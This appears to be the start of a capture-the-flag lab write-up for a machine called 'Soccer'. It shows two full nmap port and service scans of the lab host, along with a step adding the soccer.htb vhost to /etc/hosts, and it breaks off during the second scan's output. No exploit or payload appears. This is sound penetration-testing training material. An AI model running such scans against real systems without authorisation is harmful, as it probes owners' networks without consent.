










# Soccer - Easy Box

## Nmap Scan Results

```
sudo nmap -p- -T4 -sVC -oA nmap/soccer -vvv 10.129.76.245
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-01 12:46 EDT
Happy 29th Birthday to Nmap, may it live to be 129!
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.00s elapsed
Initiating Ping Scan at 12:46
Scanning 10.129.76.245 [4 ports]
Completed Ping Scan at 12:46, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:46
Completed Parallel DNS resolution of 1 host. at 12:46, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 12:46
Scanning 10.129.76.245 [65535 ports]
Discovered open port 22/tcp on 10.129.76.245
Discovered open port 80/tcp on 10.129.76.245
Discovered open port 9091/tcp on 10.129.76.245
Completed SYN Stealth Scan at 12:46, 27.75s elapsed (65535 total ports)
Initiating Service scan at 12:46
Scanning 3 services on 10.129.76.245
Completed Service scan at 12:46, 12.16s elapsed (3 services on 1 host)
NSE: Script scanning 10.129.76.245.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.74s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.06s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.00s elapsed
Nmap scan report for 10.129.76.245
Host is up, received echo-reply ttl 63 (0.054s latency).
Scanned at 2026-09-01 12:46:06 EDT for 41s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQChXu/2AxokRA9pcTIQx6HKyiO0odku5KmUpklDRNG+9sa6olMd4dSBq1d0rGtsO2rNJRLQUczml6+N5DcCasAZUShDrMnitsRvG54x8GrJyW4nIx4HOfXRTsNqImBadIJtvIww1L7H1DPzMZYJZj/oOwQHXvp85a2hMqMmoqsljtS/jO3tk7NUKA/8D5KuekSmw8m1pPEGybAZxlAYGu3KbasN66jmhf0ReHg3Vjx9e8FbHr3ksc/MimSMfRq0lIo5fJ7QAnbttM5ktuQqzvVjJmZ0+aL7ZeVewTXLmtkOxX9E5ldihtUFj8C6cQroX69LaaN/AXoEZWl/v1LWE5Qo1DEPrv7A6mIVZvWIM8/AqLpP8JWgAQevOtby5mpmhSxYXUgyii5xRAnvDWwkbwxhKcBIzVy4x5TXinVR7FrrwvKmNAG2t4lpDgmryBZ0YSgxgSAcHIBOglugehGZRHJC9C273hs44EToGCrHBY8n2flJe7OgbjEL8Il3SpfUEF0=
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIy3gWUPD+EqFcmc0ngWeRLfCr68+uiuM59j9zrtLNRcLJSTJmlHUdcq25/esgeZkyQ0mr2RZ5gozpBd5yzpdzk=
|   256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2Pj1mZ0q8u/E8K49Gezm3jguM3d8VyAYsX0QyaN6H/
80/tcp   open  http            syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
9091/tcp open  xmltec-xmlmail? syn-ack ttl 63
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 01 Sep 2026 16:46:46 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 01 Sep 2026 16:46:46 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.95%I=7%D=9/1%Time=6A970170%P=x86_64-pc-linux-gnu%r(inf
SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20139\r\nDate:\x20Tue,\x2001\x20Sep\x202026\x2016:46:46\x
SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
SF:\nDate:\x20Tue,\x2001\x20Sep\x202026\x2016:46:46\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Tue,\x
SF:2001\x20Sep\x202026\x2016:46:46\x20GMT\r\nConnection:\x20close\r\n\r\n<
SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:46
Completed NSE at 12:46, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.33 seconds
```

For port 80, the nmap shows that the `it did not follow redirect to http://soccer.htb`. Therefore, I quickly added the vhost in my `/etc/hosts` file & ran the nmap again to get the nmap to run the default scripts, cause this time I might get more output than before cause I added the vhost to my `/etc/hosts` file & now the nmap can follow the redirect.

```
sudo nmap -p- -T4 -sVC -oA nmap/soccer -vvv 10.129.76.245
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-01 12:48 EDT
Happy 29th Birthday to Nmap, may it live to be 129!
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
Initiating Ping Scan at 12:48
Scanning 10.129.76.245 [4 ports]
Completed Ping Scan at 12:48, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:48
Scanning soccer.htb (10.129.76.245) [65535 ports]
Discovered open port 22/tcp on 10.129.76.245
Discovered open port 80/tcp on 10.129.76.245
Discovered open port 9091/tcp on 10.129.76.245
Completed SYN Stealth Scan at 12:48, 18.54s elapsed (65535 total ports)
Initiating Service scan at 12:48
Scanning 3 services on soccer.htb (10.129.76.245)
Completed Service scan at 12:48, 12.13s elapsed (3 services on 1 host)
NSE: Script scanning 10.129.76.245.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.77s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
Nmap scan report for soccer.htb (10.129.76.245)
Host is up, received reset ttl 63 (0.013s latency).
Scanned at 2026-09-01 12:48:15 EDT for 31s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQChXu/2AxokRA9pcTIQx6HKyiO0odku5KmUpklDRNG+9sa6olMd4dSBq1d0rGtsO2rNJRLQUczml6+N5DcCasAZUShDrMnitsRvG54x8GrJyW4nIx4HOfXRTsNqImBadIJtvIww1L7H1DPzMZYJZj/oOwQHXvp85a2hMqMmoqsljtS/jO3tk7NUKA/8D5KuekSmw8m1pPEGybAZxlAYGu3KbasN66jmhf0ReHg3Vjx9e8FbHr3ksc/MimSMfRq0lIo5fJ7QAnbttM5ktuQqzvVjJmZ0+aL7ZeVewTXLmtkOxX9E5ldihtUFj8C6cQroX69LaaN/AXoEZWl/v1LWE5Qo1DEPrv7A6mIVZvWIM8/AqLpP8JWgAQevOtby5mpmhSxYXUgyii5xRAnvDWwkbwxhKcBIzVy4x5TXinVR7FrrwvKmNAG2t4lpDgmryBZ0YSgxgSAcHIBOglugehGZRHJC9C273hs44EToGCrHBY8n2flJe7OgbjEL8Il3SpfUEF0=
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIy3gWUPD+EqFcmc0ngWeRLfCr68+uiuM59j9zrtLNRcLJSTJmlHUdcq25/esgeZkyQ0mr2RZ5gozpBd5yzpdzk=
|   256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2Pj1mZ0q8u/E8K49Gezm3jguM3d8VyAYsX0QyaN6H/
80/tcp   open  http            syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Soccer - Index
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail? syn-ack ttl 63
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 01 Sep 2026 16:48:45 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 01 Sep 2026 16:48:45 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.95%I=7%D=9/1%Time=6A9701E7%P=x86_64-pc-linux-gnu%r(inf
SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20139\r\nDate:\x20Tue,\x2001\x20Sep\x202026\x2016:48:45\x
SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
SF:\nDate:\x20Tue,\x2001\x20Sep\x202026\x2016:48:45\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
